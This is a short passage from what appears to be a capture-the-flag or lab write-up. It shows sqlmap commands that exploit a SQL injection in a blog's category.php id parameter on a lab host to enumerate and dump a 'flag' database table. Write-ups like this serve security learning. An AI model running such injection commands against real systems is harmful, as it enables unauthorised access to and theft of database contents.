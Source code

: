 <figure><img src="../../../.gitbook/assets/image (96) (1).png" alt=""><figcaption></figcaption></figure>

Alright, that worked. We have a database named `flag.` Check the tables

```
sqlmap 'http://172.16.1.12/blog/category.php?id=5' --dbs --batch -D flag --tables
```

<figure><img src="../../../.gitbook/assets/image (97) (1).png" alt=""><figcaption></figcaption></figure>

Dump the `flag` tables

```
sqlmap 'http://172.16.1.12/blog/category.php?id=5' --dbs --batch -D flag -T flag --dump
```

<figure><img src="../../../.gitbook/assets/image (99) (1).png" alt=""><figcaption></figcaption></figure>
